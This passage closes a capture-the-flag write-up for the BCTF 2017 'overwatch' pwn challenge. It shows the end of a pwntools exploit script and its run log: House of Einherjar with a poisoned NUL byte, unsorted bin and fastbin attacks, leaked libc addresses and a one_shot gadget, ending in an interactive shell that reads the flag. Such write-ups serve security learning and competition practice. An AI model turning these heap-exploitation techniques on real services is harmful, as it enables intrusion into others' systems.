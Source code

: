     log.success("Fastbin Attack succeeded!\n\n")    
    
    # Step 5. -- Win!
    changeEmail("") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        token = "yuRRme9y3wc5ZCHyhckEBnRsR3ueR8M8"
        r.sendline(token)   
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/bctf17/overwatch/overwatch'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight text%}
➜  overwatch python solve.py 35.167.163.161 16969
[*] For remote: solve.py HOST PORT
[+] Opening connection to 35.167.163.161 on port 16969: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting House of Einherjar attack...
[*] grooming heap...
[+] poisoned NUL byte inserted!
[+] overlapping chunks created!
    
[*] starting Unsorted Bin Attack...
[+] Unsorted Bin Attack succeeded!
    
[*] starting infoleaks...
[*] teammate 1 map found: Dorado
[*] teammate 1 hero found: Roadhog
[*] teammate 2 map found: Temple of Anubis
[*] teammate 2 hero found: Tracer
[+] libc_base at: 0x7f1f327d6000
[+] __realloc_hook at: 0x7f1f32b99b08
[+] unsorted bin at: 0x7f1f32b99b78
[+] one_shot at: 0x7f1f3281b26a
    
[*] starting Fastbin Attack...
[*] restoring corrupted unsorted chunk's BK ptr...
[+] Fastbin Attack succeeded!
    
[*] Switching to interactive mode
 $ cat flag
bctf{0ad5c4cb31a4bd7961d4aafa7f6975d8}
{% endhighlight %}
